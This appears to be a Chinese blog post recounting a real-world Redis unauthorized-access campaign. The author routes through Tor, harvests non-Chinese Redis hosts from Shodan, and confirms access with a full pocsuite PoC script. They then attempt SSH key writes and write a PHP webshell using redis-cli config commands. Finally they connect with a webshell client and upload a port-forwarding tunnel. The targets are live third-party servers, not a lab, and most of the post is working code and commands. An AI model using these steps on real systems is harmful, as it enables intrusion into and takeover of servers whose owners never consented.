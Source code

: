 # 对redis未授权访问漏洞利用测试

## 代理

配置proxychains使用tor网络，开启ss-server进程：

> proxychains ss-server -c tor_config.json -f pid 2

## 通过shodan提供的API:

> 账户权限不够，只能获取前100条数据进行测试。

```python
api = shodan.Shodan('apikey')
try:
    res = api.search("redis")
	print(res['total'])
	with open("./test_ip.txt","w") as fo:
		for res in res['matches']:
			if res['location']['country_code'] == 'CN':
				continue
			fo.write(res['ip_str']+"\n")
except shodan.APIError as e:
	print(e)
```

## 测试是否存在redis未授权

> pocsuite -f redis_ip.txt -r redis_poc.py -proxy 127.0.0.1:1080 

### 利用POC:

```python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

import socket
import urlparse
from pocsuite.poc import POCBase, Output
from pocsuite.utils import register


class TestPOC(POCBase):
    vulID = '89339'
    version = '1'
    author = ['Anonymous']
    vulDate = '2015-10-26'
    createDate = '2015-10-26'
    updateDate = '2015-10-26'
    references = ['http://sebug.net/vuldb/ssvid-89339']
    name = 'Redis 未授权访问 PoC'
    appPowerLink = 'http://redis.io/'
    appName = 'Redis'
    appVersion = 'All'
    vulType = 'Unauthorized access'
    desc = '''
        redis 默认不需要密码即可访问，黑客直接访问即可获取数据库中所有信息，造成严重的信息泄露。
    '''
    samples = ['']

    def _verify(self):
        result = {}
        payload = '\x2a\x31\x0d\x0a\x24\x34\x0d\x0a\x69\x6e\x66\x6f\x0d\x0a'
        s = socket.socket()
        socket.setdefaulttimeout(10)
        try:
            host = urlparse.urlparse(self.url).netloc
            port = 6379
            s.connect((host, port))
            s.send(payload)
            recvdata = s.recv(1024)
            if recvdata and 'redis_version' in recvdata:
                result['VerifyInfo'] = {}
                result['VerifyInfo']['URL'] = self.url
                result['VerifyInfo']['Port'] = port
        except:
            pass
        s.close()
        return self.parse_attack(result)

    def _attack(self):
        return self._verify()

    def parse_attack(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output


register(TestPOC)
```

结果：
> success : 40 / 54 

### 测试是否有root权限能否写入公钥，测试ssh连接

 利用exp: https://github.com/Xyntax/POC-T/blob/master/script/redis-sshkey-getshell.py
 > 结果 1/40

## 探测是否开放80端口

> nmap -Pn -sS -p80,443,8080, -iL redis_success_ip.txt -oX ./redis_http_ip.xml

### 使用脚本枚举绝对路径

exp：https://github.com/Xyntax/POC-T/blob/master/script/redis-web-probe.py

![path](https://nanazeven.github.io/image/path.png)

### 批量识别指纹

> whatweb --no-error -i redis_http.txt --log-brief=res_out

### 手动连接测试

```code
proxychians redis-cli -h ip:6379
config set dir /var/www/html 
config set dbfilename 2.php
set x "<?php phpinfo();?>"
save
```

### 成功写入webshell：

![res1](https://nanazeven.github.io/image/res1.png)

### 连接菜刀&上传端口转发脚本&查看权限

使用SocksCap64启动caodao.exe

> 端口转发脚本：https://github.com/sensepost/reGeorg

```bash
$ whoami
$ www-data
$ ifconfig
```

执行ifconfig发现存在和其他网络的联通。需要提权。

## 另一个目标：使用默认目录作为项目根目录

成功写入webshell，是用菜刀上传端口转发脚本。
www-data需要提权
![res2](https://nanazeven.github.io/image/res2.png)
